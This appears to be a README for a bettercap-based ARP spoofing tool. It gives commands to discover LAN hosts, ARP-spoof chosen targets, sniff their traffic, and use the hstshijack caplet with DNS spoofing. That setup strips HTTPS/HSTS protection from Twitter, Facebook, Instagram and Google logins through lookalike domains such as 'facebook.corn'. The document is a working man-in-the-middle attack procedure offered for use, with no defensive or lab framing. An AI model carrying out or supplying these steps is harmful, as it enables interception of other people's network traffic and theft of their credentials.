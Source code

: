 # ARPSppofer-w-bettercap

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
   **a. `bettercap -iface <interface>`
  b. `net.probe on`
  c. `net.show`
  d. Pick a client and exit bettercap.
  e. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
  a. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
  b. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
  c. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
  a. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
  b. Targets and replacements could look like this… (customize to your liking)
    `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
  c. dns.spoof.domains could look like this... (customize to your liking)
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
  a. `bettercap -iface <interface> -caplet <capletfile>`
  b. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
  a. `hstshijack/hstshijack`
  b. `caplets.show`







